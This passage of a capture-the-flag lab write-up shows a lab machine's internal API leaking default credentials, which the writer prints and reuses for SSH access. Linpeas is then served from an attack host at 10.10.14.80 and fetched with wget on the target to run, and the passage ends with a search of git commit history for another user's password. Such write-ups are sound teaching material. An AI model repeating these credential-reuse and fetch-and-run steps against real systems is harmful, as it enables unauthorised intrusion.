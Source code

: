 
### Retrieving default credentials from the "authors" API endpoint: {#retrieving-default-credentials-from-the-authors-api-endpoint}

-   The endpoint `http://127.0.0.1:5000/api/latest/metadata/messages/authors` contained the following message which appears to be sent to new authors &amp; it contained default creds:
    -   {{< figure src="/ox-hugo/2024-12-21-155343_.png" >}}
    -   `dev:dev080217_devAPI!@`


## 2. Foothold: {#2-dot-foothold}


### Accessing the host by SSH as dev: {#accessing-the-host-by-ssh-as-dev}

-   I try these on the ssh service &amp; they work:
    -   {{< figure src="/ox-hugo/2024-12-21-155513_.png" >}}

-   Lets get our flag:
    -   {{< figure src="/ox-hugo/2024-12-22-053332_.png" >}}


### Enumerating the host as dev: {#enumerating-the-host-as-dev}


#### Running Linpeas: {#running-linpeas}

-   I transfer linpeas over using a simple python http server.
    -   On my attack host:
        -   On my host I navigate to where I have the `linpeas.sh` file stored.
        -   I run `python -m http.server 9000`
    -   On the target
        -   I navigate to `/tmp` as it's always world writable.
        -   I transfer the file using wget.
            -   `wget http://10.10.14.80:9000/linpeas.sh`
            -   {{< figure src="/ox-hugo/2024-12-22-054131_.png" >}}
        -   Make it executable `chmod +x linpeas.sh`
        -   Run it `./linpeas.sh`
-   It finds nothing of note.


#### Finding prod user password in git commits: {#finding-prod-user-password-in-git-commits}

-   Looking at our users home folder we can see they have an `apps` folder however it is empty.
-   Looking further we can see it has a `.git` folder, meaning this was once at some point initialized as a git repo or was intended to be a git repo, which means either files have been deleted or never added. Luckily we can query the `.git` logs to check if files were ever present.

-   I run `git log --oneline` and we are shown a list of previous commits, which means this was an active repo but the files have since been deleted. On the left hand side we can see the git commit hash and to the right the commit message supplied by the user for the commit.
    -   {{< figure src="/ox-hugo/2024-12-22-065734_.png" >}}
